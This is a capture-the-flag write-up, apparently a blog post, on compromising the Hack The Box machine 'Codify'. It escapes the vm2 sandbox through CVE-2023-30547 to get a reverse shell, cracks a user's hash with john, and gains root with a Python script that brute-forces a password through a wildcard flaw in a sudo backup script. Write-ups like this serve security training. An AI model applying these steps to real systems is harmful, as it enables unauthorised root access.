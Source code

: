<a href="https://0xvenus.github.io" style="display:inline-block; padding:8px 12px; background:#0078d4; color:#fff; text-decoration:none; border-radius:4px;">
    ⬅ Back to Homepage
</a>


<h2>CODIFY HTB</h2>


### NMAP SCAN

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8a6e7234-f883-4835-831b-61e6e38cfb69)

``Add codify.htb to /etc/hosts file``

visiting the url shows our target is a Node.js editor

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/43820d8b-1120-41a7-9fef-eeb654420e65)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8e5750d5-a53c-4997-939d-0ea60b9aba08)

And yeah we can see it's running `vm2 version 3.9.16` which is vulnerable to ``Remote code execution`` ``CVE-2023-30547``

so, a quick google search gave the [exploit](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)

we can easily gain reverse shell by modifying the execSync funtion and setting our netcat listener

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c5e6cc05-bfa4-45ee-8364-6f10b32018b9)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/2735706b-e8f3-49ad-958a-6900386949fc)

### PRIVILEGE ESCALATION

Trying to read the files in joshua directory and permission was denied

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/2ab2583d-61ff-42f2-8401-627c24c3256f)

so, there's a database file in the /var/www/contact directory which contains the user joshua password hash

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/764131ac-3120-402d-9083-2bb41ded93be)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/3120ca6f-a3d2-4699-8cc1-cfe24bd69a2a)

And yeah i was able to crack the hash using john 

```john --wordlist=/usr/share/wordlists/rockyou.txt hash```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/30ab44ed-694d-4e19-b35f-726623d393ab) 

we can now ssh into the box as joshua to get the user flag and proceed

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a1c9a152-907d-49bc-9c7f-eb783586c15d)

running `sudo -l` shows we can run the mysql-backup script as sudo

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a7fdc197-aff9-45e0-a397-c0a02c46d0a2)

and yeah we can guess or brute force the first password character followed by * to bypass the password prompt. and we can also brute force every character of the password till we find all characters of the password.

```
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

which i was able to get the root password and su as root

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e82c4557-2037-4e71-b037-ee45d145e655)

so, cat the root flag

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/97e615ce-991b-4153-83ce-c03ba7d63c69)



Thanks.











